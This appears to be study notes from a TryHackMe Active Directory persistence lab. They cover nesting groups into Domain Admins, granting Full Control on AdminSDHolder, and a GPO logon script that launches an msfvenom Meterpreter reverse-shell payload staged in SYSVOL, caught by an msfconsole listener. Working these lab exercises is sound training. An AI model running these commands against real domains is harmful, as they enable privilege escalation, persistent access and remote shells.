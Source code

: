 `Add-ADGroupMember -Identity "<username>_nestgroup2" -Members "<username>_nestgroup1"`*Let's now create another group in the People->Sales OU and add our previous group as a member:*

`Add-ADGroupMember -Identity "Domain Admins" -Members "<username>_nestgroup2"` *add that group to the Domain Admins group:*

`Add-ADGroupMember -Identity "<username>_nestgroup1" -Members "<low privileged username>"`*add our low-privileged AD user to the first group we created*

# Persisting through AD Group Templates
Inject into the templates that generate the default groups. By injecting into these templates, even if they remove our membership, we just need to wait until the template refreshes, and we will once again be granted membership.

To avoid kicking users out of their RDP sessions, it will be best to RDP into THMWRK1 using your low privileged credentials, use the runas command to inject the Administrator credentials, and then execute MMC from this new terminal:

`runas /netonly /user:thmchilddc.tryhackme.loc\Administrator cmd.exe`

*Once you have an MMC window, add the Users and Groups Snap-in (File->Add Snap-In->Active Directory Users and Computers). Make sure to enable Advanced Features (View->Advanced Features). We can find the AdminSDHolder group under Domain->System:*

*Navigate to the Security of the group (Right-click->Properties->Security):*
*Let's add our low-privileged user and grant Full Control:
    Click Add.
    Search for your low-privileged username and click Check Names.
    Click OK.
    Click Allow on Full Control.
    Click Apply.
    Click OK.*

# GPO almost impossible to kick me out
*Create a GPO that is linked to the Admins OU, which will allow us to get a shell on a host every time one of them authenticates to a host.*

`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=persistad lport=4445 -f exe > <username>_shell.exe`

*Create the following script .bat*
`copy \\za.tryhackme.loc\sysvol\za.tryhackme.loc\scripts\<username>_shell.exe C:\tmp\<username>_shell.exe && timeout /t 20 && C:\tmp\<username>_shell.exe`


`scp am0_shell.exe za\\Administrator@thmdc.za.tryhackme.loc:C:/Windows/SYSVOL/sysvol/za.tryhackme.loc/scripts/`
`scp am0_script.bat za\\Administrator@thmdc.za.tryhackme.loc:C:/Windows/SYSVOL/sysvol/za.tryhackme.loc/scripts/` *SCP and our Administrator credentials to copy both scripts to the SYSVOL directory:*

`msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST persistad; set LPORT 4445;exploit"`*listener*

**You will need to RDP into THMWRK1 and use a runas window running as the Administrator for the next steps.**
